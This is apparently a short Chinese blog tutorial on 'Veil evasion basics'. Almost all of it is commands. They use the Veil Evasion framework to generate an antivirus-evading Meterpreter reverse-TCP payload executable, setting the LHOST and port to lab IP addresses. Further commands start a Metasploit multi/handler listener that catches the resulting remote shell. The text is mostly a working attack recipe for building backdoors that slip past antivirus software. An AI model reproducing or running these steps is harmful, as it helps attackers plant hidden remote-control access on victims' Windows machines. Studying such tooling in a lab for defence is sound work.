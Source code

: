 ```yaml
---
title: Veil免杀入门
date: 2024-01-13 20:29:43
tags: 渗透测试
mathjax: true
---
```


# Veil免杀入门

启动：

```bash
veil
```

使用Evasion工具：

```
use Evation
```

查看支持的攻击载荷：

```
list
```

选择攻击载荷：

```
use cs/meterpreter/rev_tcp.py
```

查看配置信息并配置：

```
options
set LHOST 192.168.29.134
```

生成攻击载荷：

```
generate
```

生成可执行文件payload.exe。

还有另一种生成方式，直接使用命令行生成：

```bash
veil -t Evasion -p cs/meterpreter/rev_tcp.py --ip 192.168.195.150 --port 4444
```

在MSF设置监听：

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.29.134
exploit
```

成功启动Meterpreter会话。
